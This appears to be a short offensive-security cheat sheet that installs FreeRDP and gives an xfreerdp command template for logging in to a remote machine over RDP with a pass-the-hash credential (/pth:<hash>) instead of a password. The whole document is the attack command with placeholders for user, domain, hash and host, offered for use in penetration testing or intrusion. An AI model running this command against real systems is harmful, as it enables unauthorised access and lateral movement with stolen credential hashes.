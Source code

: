 ### Install
```
apt install freerdp2-x11
```

### RDP with pass the hash
```
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<rhost> +clipboard /dynamic-resolution
```

